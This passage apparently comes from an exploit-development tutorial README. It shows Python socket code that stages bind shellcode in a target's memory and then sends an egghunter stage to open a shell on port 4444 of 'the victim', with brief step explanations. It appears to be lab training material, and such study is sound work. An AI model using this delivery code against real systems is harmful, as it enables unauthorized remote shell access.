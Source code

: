    4. Check All options as shown below (and above!)

		<img src="Images/I30.png" width=600> 

8. Organize the python file as shown in [exploit5.py](./SourceCode/exploit5.py), here we will mainly focus on the order we send the payloads.
	```
	with socket.create_connection((HOST, PORT)) as fd:
		print("Connected...")
		print(fd.recv(1024)) # Get welcome message 
		print(fd.recv(1024)) # Get "You are user X" message
		print("Sending shellcode:")
		fd.sendall(PAYLOAD_SHELL)
		print("Shellcode has been staged")

	with socket.create_connection((HOST, PORT)) as fd:
		print("Connected...")
		print(fd.recv(1024)) # Get welcome message 
		print(fd.recv(1024)) # Get "You are user X" message
		print("Sending first stage:")
		fd.sendall(PAYLOAD)
		print('Done!\nCheck the port 4444 of the victim.\nThis may take a few minuets!')
	```
      * First we send the bind shellcode packet, this is so the "egg" is staged in memory for the EggHunter.
      * Then we send the EggHunter, once this is sent it should start scanning memory. Give this a few minuets and we should be able to connect to port 4444 on the target machine for a shell.  
9. Run your exploit program, it should be equivalent to [exploit5.py](./SourceCode/exploit5.py), and you should see the following output. 
